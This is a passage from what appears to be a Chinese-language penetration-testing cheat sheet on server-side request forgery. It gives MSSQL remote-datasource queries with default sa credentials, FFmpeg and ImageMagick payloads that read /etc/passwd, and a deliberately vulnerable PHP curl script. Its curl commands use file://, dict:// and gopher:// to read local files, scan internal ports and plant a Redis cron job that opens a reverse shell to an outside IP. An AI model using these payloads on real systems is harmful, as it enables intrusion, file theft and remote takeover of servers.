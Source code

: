 	'select version();’ 
	);
 ##### MSSQL
	SELECT openrowset('SQLOLEDB', 'server=192.168.1.5;uid=sa;pwd=sa;database=master')
	SELECT * FROM OpenDatasource('SQLOLEDB', 'Data Source=ServerName;User ID=sa;Password=sa' ) .Northwind.dbo.Categories
 ##### 图片处理函数
	FFmpeg
	concat:http://wyssrf.wuyun.org/header.y4m|file:///etc/passwd
	ImageMagick
	fill 'url(http://wyssrf.wuyun.org)'
 #### 攻击
	测试代码,需安装phpcurl模块apt-get install php7.0-curl
	<?php
	echo 'r u ok?';
	function curl($url){  
	  $ch = curl_init();
	  curl_setopt($ch, CURLOPT_URL, $url);
	  curl_setopt($ch, CURLOPT_HEADER, 0);
	  curl_exec($ch);
	  curl_close($ch);
	}
	$url = $_GET['url'];
	curl($url);
	?>
	对内网、本地进行端口扫描，获取服务的banner 信息
	攻击运行在内网或本地的应用程序
	对内网 WEB 应用进行指纹识别，通过访问默认文件实现(如：readme文件)
	攻击内外网的 web 应用，主要是使用 GET 参数就可以实现的攻击(如：Struts2，sqli)
	读取内网资源(如：利用file协议读取本地文件等)
	跳板
	无视cdn
	利用Redis未授权访问，HTTP CRLF注入实现getshell
 ##### 文件读取
	>curl -v 'http://192.168.0.110/ssrf.php?url=file:///etc/passwd'
![image](/assets/Pentest_Note/master/img/12.png)

	?url=php://filter/read=convert.base64-encode/resource=./1.php
 #### 端口探测
	>curl -v 'http://www.xx.com/ssrf.php?url=dict://127.0.0.1:22/'
![image](/assets/Pentest_Note/master/img/13.png)

	>curl -v 'http://www.xx.com/ssrf.php?url=dict://127.0.0.1:6379/info'
![image](/assets/Pentest_Note/master/img/14.png)
 ###### SSRF+Redis
	>curl -v 'http://192.168.0.112/ssrf.php?url=gopher://192.168.0.120:6379/_*1%250d%250a%248%250d%250aflushall%250d%250a%2a3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2464%250d%250a%250d%250a%250a%250a%2a%2f1%20%2a%20%2a%20%2a%20%2a%20bash%20-i%20%3E%26%20%2fdev%2ftcp%2f192.168.0.108%2f12345%200%3E%261%250a%250a%250a%250a%250a%250d%250a%250d%250a%250d%250a%2a4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2fvar%2fspool%2fcron%2f%250d%250a%2a4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2a1%250d%250a%244%250d%250asave%250d%250aquit%250d%250a'
![image](/assets/Pentest_Note/master/img/15.png)
![image](/assets/Pentest_Note/master/img/16.png)
